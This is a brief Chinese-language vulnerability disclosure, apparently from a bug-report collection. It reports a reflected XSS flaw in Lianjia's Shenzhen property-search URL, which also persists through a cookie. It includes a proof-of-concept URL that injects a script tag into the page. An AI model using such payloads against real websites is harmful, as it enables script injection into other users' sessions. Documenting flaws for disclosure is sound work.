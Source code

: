 ## 链接网站搜索楼盘接口存在XSS问题

POC

```html
http://sz.lianjia.com/loupan/rs%22%3E%3Cscript%3Ealert%281%29%3C/script%3E
```

原因：反射型XSS，输出到HTML页面了，同时要保存到cookie里，造成重复触发。

![](../images/20150916232022.png)

